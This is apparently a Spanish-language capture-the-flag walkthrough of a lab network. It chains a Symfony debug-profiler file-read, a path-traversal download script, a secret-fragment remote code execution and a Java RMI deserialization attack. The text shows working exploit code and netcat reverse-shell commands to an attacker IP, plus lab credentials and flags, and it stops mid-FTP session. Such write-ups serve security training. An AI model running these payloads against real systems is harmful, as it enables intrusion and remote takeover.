### Split


Iniciamos la máquina escaneando los puertos de la máquina con `nmap` donde encontramos solo un puerto abierto que es el `80` este corre un servicio `http`

```
❯ nmap  10.13.37.13
Nmap scan report for 10.13.37.13  
PORT   STATE SERVICE
80/tcp open  http
```

  

En la web principal podemos encontrarnos solo una página por defecto de `apache2` en debian, pero hay algo que llama la atención el titulo nos muestra un `dominio`



Tal vez si apuntamos al `dominio` nos muestre algo diferente, pero para que sepa donde apuntar cuando apuntamos a el lo agregaremos al archivo `/etc/hosts`

```
❯ echo "10.13.37.13 hackfail.htb" | sudo tee -a /etc/hosts  
```

  

Al abrir la web a través del dominio `hackfail.htb` nos carga una nueva página, y mirando con `wappalyzer` las tecnologias usadas nos dice que corre un `Symfony`




Teniendo un dominio podemos fuzzear posibles subdominios usando `wfuzz`, al hacerlo encontramos un subdominio con una respuesta diferente y es `dev`

```
❯ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u hackfail.htb -H 'Host: FUZZ.hackfail.htb' --hh 10676  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://hackfail.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000019:   200        659 L    1943 W     37551 Ch    "dev"
```

  

Para que sepa resolver el subdominio lo agregamos tambien al archivo `/etc/hosts`

```
❯ echo "10.13.37.13 dev.hackfail.htb" | sudo tee -a /etc/hosts  
```

  

Si lo abrimos desde el navegador nos encontramos una página casi igual a la principal, esta tambien corre `symfony` como tecnologia pero con algunos cambios


A diferencia de la primera pagina si accedemos a `/_profiler` nos encontramos con que esta usando el modo de depuracion de `symfony` en este subdominio



Ya que esta habilitado podemos usar [eos](https://github.com/synacktiv/eos) para escanear este host y dumpear informacion, en el apartado `Project sources` podemos ver rutas del codigo fuente

```
❯ eos scan http://dev.hackfail.htb
[+] Starting scan on http://dev.hackfail.htb

[+] Info
[!]   Symfony 5.2.3
[!]   PHP 7.2.34-11+0~20210213.57+debian9~1.gbp22d8a6
[!]   Environment: dev

[+] Request logs
[+] No POST requests

[+] Phpinfo
[+] Available at http://dev.hackfail.htb/_profiler/phpinfo
[+] Found 39 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: e28eeb89adf51e1b57620f4ff1c3c5bb

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com  
[!] Found the following files:
[!]   app/config/packages/assets.xml
[!]   app/config/packages/cache.php
[!]   app/config/packages/dev/debug.php
[!]   app/config/packages/cache.xml
[!]   app/config/packages/cache.yaml
[!]   app/config/packages/cache.yml
.......................................

[+] Routes
[!] Could not find any suitable 404 response

[+] Project sources
[!] Found the following source files:
[!]   src.php
[!]   src/Controller.php
[!]   src/Controller/AdminController.php
[!]   src/Controller/DefaultController.php
[!]   src/Controller/ErrorController.php
[!]   src/Controller/IndexController.php
[!]   src/Controller/UserController.php
[!]   src/Kernel.php
[!]   src/Tests.php

[+] Generated tokens: 
[+] Scan completed
```

  

Ya con las rutas podemos leer los archivos, iniciaremos con `IndexController.php`

```
❯ eos get http://dev.hackfail.htb src/Controller/IndexController.php  
```

  

En este archivo podemos ver como esta configurado `/register`, al registrar un nuevo usuario comprueba que no sea `elonmusk` ya que es un usuario existente en la db

```
/**
     * @Route("/register", methods={"POST"})
     */
public function register(): Response
{
       include("antibf.php");
session_start();
       include("dbconfig.php");
       if(isset($_POST['username'])) {
           if($_POST['username']==='elonmusk') {
           if(isset($_SESSION["auth"]))
           {
                      return $this->render('register.html.twig', [  
'message' => "User already exists",
"error" => true,
"user" => $_SESSION["auth"],
                       ]);

           }
           else
           {
                  return $this->render('register.html.twig', [
'message' => "User already exists",
"error" => true,
                       ]);

           }
```

  

Podemos comprobarlo, si intentamos registrar al usuario `elonmusk` devuelve un error



Sin embargo al comparar la `string` en minusculas podemos cambiar algunas por mayusculas y con `ElonMUsk` si que nos deja registrar a este usuario en la web


Al iniciar sesión como `ElonMusk` suplantamos a `elonmusk` y somos administradores



Ya que tenemos acceso podemos buscar rutas de las que podamos aprovecharnos en el archivo `AdminController.php` del que podemos dumpear su codigo usando `eos`

```
❯ eos get http://dev.hackfail.htb src/Controller/AdminController.php  
```

  

La ruta `/download` comprueba que el usuario sea `elonmusk` si es asi nos permite descargar archivos pasandole 2 parametros, la ruta en `file` y su hash md5 en `c`

```
/** 
    * @Route("/download", methods={"GET"})
   */
public function download()
   {

       include("antibf.php");
session_start();
       include("dbconfig.php");
       if(isset($_SESSION["auth"]))
       {
$stmt=$conn->prepare('select username from users where username=?');
$stmt->bind_param("s",$_SESSION["auth"]);
$stmt->execute();
$result=$stmt->get_result();
$row=$result->fetch_assoc();
           if($row['username']==='elonmusk')
           {
$file_storage = "/var/www/blog_dev/uploads/";
               if(isset($_GET['c']) && !is_null($_GET['c'] && isset($_GET['file']) && !is_null($_GET['file'])))  
               {
$fullpath = $file_storage.$_GET['file'];
                   if(file_exists($fullpath))
                   {
                       if(md5($fullpath) === $_GET['c'])
                       {
                           echo file_get_contents($fullpath);
                       }}
```

  

Ya que tenemos que calcular el hash `md5` podemos automatizarlo en un script de python, que se autentique como `ElonMusk` y haga la peticion como pide el codigo

```
#!/usr/bin/python3
import requests, hashlib, sys

if len(sys.argv) < 2:
    print(f"Usage: python3 {sys.argv[0]} <file>")
    sys.exit(1)

session = requests.Session()

target = "http://dev.hackfail.htb/login"
data = {"username": "ElonMusk", "password": "testing"}  
session.post(target, data=data)

default_path = "/var/www/blog_dev/uploads/"
file_path = f"../../../..{sys.argv[1]}"
full_path = default_path + file_path
hash = hashlib.md5(full_path.encode()).hexdigest()

target = "http://dev.hackfail.htb/download"
params = {"file": file_path, "c": hash}
request = session.get(target, params=params)

result = request.text.find("<!DOCTYPE html>")
print(request.text[:result].strip())
```

  

Con este podemos obtener archivos locales de la maquina como el `/etc/passwd`

```
❯ python3 lfi.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin  
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:104:110:MySQL Server,,,:/nonexistent:/bin/false
elonmusk:x:1000:1000:,,,:/home/elonmusk:/bin/bash
```

  

Para saber como esta montado el servidor podemos leer el archivo de configuracion de `apache2`, este nos muestra las `rutas` definidas para cada host existente

```
❯ python3 lfi.py /etc/apache2/sites-enabled/000-default.conf  
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog /error.log
        CustomLog /access.log combined
</VirtualHost>
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName dev.hackfail.htb
        DocumentRoot /var/www/blog_dev/public

        <Directory "/var/www/blog_dev/public">
                AllowOverride All
        </Directory>
</VirtualHost>
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName hackfail.htb
        DocumentRoot /var/www/blog/public

        <Directory "/var/www/blog/public">
                AllowOverride All
        </Directory>
</VirtualHost>
```

  

Ya que podemos leer archivos tambien deberiamos poder leer el `.env` de la primera web en el cual se almacenan las variables entre ellas el `APP_SECRET`

```
❯ python3 lfi.py /var/www/blog/.env
# In all environments, the following files are loaded if they exist,
# the latter taking precedence over the former:
#
#  * .env                contains default values for the environment variables needed by the app
#  * .env.local          uncommitted file with local overrides
#  * .env.$APP_ENV       committed environment-specific defaults
#  * .env.$APP_ENV.local uncommitted environment-specific overrides
#
# Real environment variables win over .env files.
#
# DO NOT DEFINE PRODUCTION SECRETS IN THIS FILE NOR IN ANY OTHER COMMITTED FILES.
#
# Run "composer dump-env prod" to compile .env files for production use (requires symfony/flex >=1.2).
# https://symfony.com/doc/current/best_practices.html#use-environment-variables-for-infrastructure-configuration  

###> symfony/framework-bundle ###
APP_ENV=prod
APP_SECRET=8c780d40a55d81caf1583f1de0bfede3
###< symfony/framework-bundle ###
```

  

Buscando un poco llegamos a un [articulo](https://www.ambionics.io/blog/symfony-secret-fragment) que nos muestra una forma de ejecutar comandos en `symfony` cuando tenemos el secreto, para no tener que crear la url del payload a mano podemos usar un [script](https://github.com/ambionics/symfony-exploits) que lo automatice, le pasamos el secreto y a traves de la funcion `shell_exec` ejecutamos netcat para enviarnos una bash

```
❯ python3 secret_fragment_exploit.py http://hackfail.htb/_fragment -i http://hackfail.htb/_fragment -m 1 -s 8c780d40a55d81caf1583f1de0bfede3 -a sha256 -f shell_exec -p cmd:'netcat -e /bin/bash 10.10.14.10 443'  
http://hackfail.htb/_fragment?_path=cmd%3Dnetcat%2B-e%2B%252Fbin%252Fbash%2B10.10.14.10%2B443%26_controller%3Dshell_exec&_hash=l2CDqtatifq37alW0wkt67jVIJLNVa3%2BA10khlZj0L8%3D
```

  

Finalmente solo hacemos una petición a la url generada y recibimoa una shell en la maquina como el usuario `www-data` donde podemos leer la primera flag

```
❯ curl -s 'http://hackfail.htb/_fragment?_path=cmd%3Dnetcat%2B-e%2B%252Fbin%252Fbash%2B10.10.14.10%2B443%26_controller%3Dshell_exec&_hash=l2CDqtatifq37alW0wkt67jVIJLNVa3%2BA10khlZj0L8%3D'  
```

  

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.13
script /dev/null -c bash
Script started, file is /dev/null
www-data@blog:~/blog/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
www-data@blog:~/blog/public$ hostname -I
172.22.1.97 
www-data@blog:~/blog/public$ cat ../flag.txt
SYNACKTIV{Br34K_Th3_@pp_1Nt0_Fr4gM3NtS}
www-data@blog:~/blog/public$
```


### AcedDC


Buscando formas de escalar podemos monitorear procesos con [pspy](https://github.com/DominicBreuker/pspy) despues de unos segundos encontramos que el id `1000` ejecuta con `java 11` un compilado pasandole como argumento la ip `172.22.1.250` que es diferente a la nuestra

```
CMD: UID=1000  PID=19404  | /usr/lib/jvm/jdk-11.0.10/bin/java -jar /home/elonmusk/monitoringClient.jar 172.22.1.250  
```

  

Podemos descargar el archivo de java y decompilarlo usando `jd-gui`, en el codigo vemos la clase `Main` que usa el argumento y se conecta al puerto `1099` de esa ip



Esto nos hace pensar que hay mas hosts activos, podemos subir un binario estatico de [nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) para escanear la red, encontramos los hosts `.53` y `.250` activos

```
www-data@blog:/tmp$ ./nmap -sn 172.22.1.0/24 -oG -  
Host: 172.22.1.1 ()	Status: Up
Host: 172.22.1.53 ()	Status: Up
Host: 172.22.1.97 ()	Status: Up
Host: 172.22.1.250 ()	Status: Up
www-data@blog:/tmp$
```

  

Haciendo un escaneo de puertos encontramos corriendo `ftp` en la `.53` y en la `.250` `rmi` que sabemos se usaba en el programa de java para enviarle datos

```
www-data@blog:/tmp$ ./nmap 172.22.1.53  
Nmap scan report for 172.22.1.53
PORT   STATE SERVICE
21/tcp open  ftp
www-data@blog:/tmp$ ./nmap 172.22.1.250  
Nmap scan report for 172.22.1.250
PORT     STATE SERVICE
1099/tcp open  rmiregistry
1337/tcp open  unknown
www-data@blog:/tmp$
```

  

Para tener conexion usaremos `chisel` para entablar un tunel por el puerto `1080`

```
www-data@blog:/tmp$ ./chisel client 10.10.14.10:9999 R:socks &  
client: Connecting to ws://10.10.14.10:9999
client: Connected (Latency 16.9278ms)
www-data@blog:/tmp$
```

  

```
❯ chisel server --reverse --port 9999
server: Reverse tunnelling enabled
server: Listening on http://0.0.0.0:9999
server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening  
```

  

Con [rmg](https://github.com/qtc-de/remote-method-guesser) podemos enumerar el `rmi`, con `enum` hacemos un reconocimiento general

```
❯ proxychains -q java -jar rmg-4.4.1-jar-with-dependencies.jar enum 172.22.1.250 1099
[+] RMI registry bound names:
[+]
[+] 	- monitoring
[+] 		--> com.synacktiv.IMonitoringService (unknown class)
[+] 		    Endpoint: 172.22.1.250:1337  TLS: no  ObjID: [41a11c27:18a8750b045:-7fff, -279727483817371078]
[+]
[+] RMI server codebase enumeration:
[+]
[+] 	- rsrc:./ jar:rsrc:json-lib-2.4-jdk15.jar!/ jar:rsrc:ezmorph-1.0.6.jar!/ jar:rsrc:commons-logging-1.1.1.jar!/ jar:rsrc:commons-lang-2.5.jar!/ jar:rsrc:commons-collections-3.2.1.jar!/ jar:rsrc:commons-beanutils-1.8.0.jar!/  
[+] 		--> com.synacktiv.IMonitoringService
[+]
[+] RMI server String unmarshalling enumeration:
[+]
[+] 	- Server complained that object cannot be casted to java.lang.String.
[+] 	  --> The type java.lang.String is unmarshalled via readString().
[+] 	  Configuration Status: Current Default
[+]
[+] RMI server useCodebaseOnly enumeration:
[+]
[+] 	- RMI registry uses readString() for unmarshalling java.lang.String.
[+] 	  This prevents useCodebaseOnly enumeration from remote.
[+]
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+]
[+] 	- Registry rejected unbind call cause it was not sent from localhost.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] RMI Security Manager enumeration:
[+]
[+] 	- Caught Exception containing 'no security manager' during RMI call.
[+] 	  --> The server does not use a Security Manager.
[+] 	  Configuration Status: Current Default
[+]
[+] RMI server JEP290 enumeration:
[+]
[+] 	- DGC rejected deserialization of java.util.HashMap (JEP290 is installed).
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] RMI registry JEP290 bypass enumeration:
[+]
[+] 	- RMI registry uses readString() for unmarshalling java.lang.String.
[+] 	  This prevents JEP 290 bypass enumeration from remote.
[+]
[+] RMI ActivationSystem enumeration:
[+]
[+] 	- Caught NoSuchObjectException during activate call (activator not present).
[+] 	  Configuration Status: Current Default
```

  

El modo `guess` intentara descubrir metodos en el servicio mediante un diccionario, al terminar descubre un metodo llamado `login` bajo el boundname `monitoring`

```
❯ proxychains -q java -jar rmg-4.4.1-jar-with-dependencies.jar guess 172.22.1.250 1099
[+] Reading method candidates from internal wordlist rmg.txt
[+] 	752 methods were successfully parsed.
[+] Reading method candidates from internal wordlist rmiscout.txt
[+] 	2550 methods were successfully parsed.
[+]
[+] Starting Method Guessing on 3281 method signature(s).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ monitoring ] HIT! Method with signature String login(String dummy, String dummy2) exists!  
[+] 		[3281 / 3281] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- monitoring
[+] 		--> String login(String dummy, String dummy2)
```

  

Realmente el metodo `login` no tiene funciones que nos sirvan para ejecutar comandos pero podemos usar el metodo `sendData` que encontramos en el propio .jar



Podemos hacer uso de el boundname `monitoring` y la signature `sendData` para a traves de deserializacion ejecutar un `comando` que nos envie una bash con netcat

```
❯ proxychains -q java -jar rmg-4.4.1-jar-with-dependencies.jar serial 172.22.1.250 1099 --yso /opt/ysoserial.jar --bound-name monitoring --signature 'String sendData(String dummy,Object dummy2)' CommonsCollections6 'netcat 10.10.14.10 443 -e /bin/bash'  
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.Object on position 1
[+] 	Specified method signature is String sendData(String dummy,Object dummy2)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class e8d761189e084489b6486aa450c89ee9.
[+] 	Deserialization attack probably worked :)
```

  

Al hacerlo, en nuestro listener recibimos una shell en el equipo `.250` como el usuario `monitoring` que en su directorio home personal tiene la segunda flag

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.13 
script /dev/null -c bash
Script started, file is /dev/null
monitoring@watcher:/$ id
uid=1000(monitoring) gid=1000(monitoring) groups=1000(monitoring)  
monitoring@watcher:/$ hostname -I
172.22.1.250 
monitoring@watcher:/$ cat ~/flag.txt 
SYNACKTIV{TrY_t0_m0n1t0r_My_g@dG3T5}
monitoring@watcher:/$
```

### Let's dance


Antes habiamos visto un `ftp` abierto en la `.53`, podemos conectarnos como el usuario `anonymous` y obtenemos acceso a un `backup.tar` que descargamos

```
monitoring@watcher:~$ ftp 172.22.1.53
Connected to 172.22.1.53.
220 (vsFTPd 3.0.3)
Name (172.22.1.53:monitoring): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 0        0           20480 Feb 19  2021 backup.tar
226 Directory send OK.
ftp> get backup.tar
local: backup.tar remote: backup.tar
150 Opening BINARY mode data connection for backup.tar (20480 bytes).  
226 Transfer complete.
ftp>
```

  

Descomprimimos el `backup.tar` y nos deja un archivo de `logs`, en una parte de los logs se nos muestra un proceso que tiene una contraseña para el usuario `elonmusk`

```
monitoring@watcher:~$ tar -xf backup.tar 
monitoring@watcher:~$ cat logs.txt
..................................................................................
==========================		Process		==========================
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.6 172512  6272 ?        Ss   Feb03   0:08 /sbin/init
root        20  0.0  1.0  44236 10252 ?        Ss   Feb03   0:03 /lib/systemd/systemd-journald
elonmusk 18480  0.0  0.1 275381 3462  ?        Ss+  20:44   0:00 mysql -u elonmusk -p 28fL+PvkSl0P5+zhkvPLCw appli
elonmusk 18481 94.0  4.9 2746800 49764 ?       Ssl  20:44   0:00 /usr/bin/java -jar /home/elonmusk/monitoringClient.jar 192.168.1.3  
elonmusk 18500  0.0  0.2   9392  3028 ?        R    20:44   0:00 /usr/bin/ps -aux
..................................................................................
```

  

Nos conectamos a `ftp` de nuevo pero esta vez con las credenciales de `elonmusk`, dentro del directorio elonmusk encontramos un archivo `.apk` y un `.ovpn`

```
monitoring@watcher:~$ ftp 172.22.1.53
Connected to 172.22.1.53.
220 (vsFTPd 3.0.3)
Name (172.22.1.53:monitoring): elonmusk
331 Please specify the password.
Password: 28fL+PvkSl0P5+zhkvPLCw
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Feb 24  2021 bob
drwxr-xr-x    2 1000     1000         4096 Mar 05  2021 elonmusk
226 Directory send OK.
ftp> cd elonmusk
250 Directory successfully changed.
ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000      2280632 Mar 05  2021 hackfail-authenticator.apk
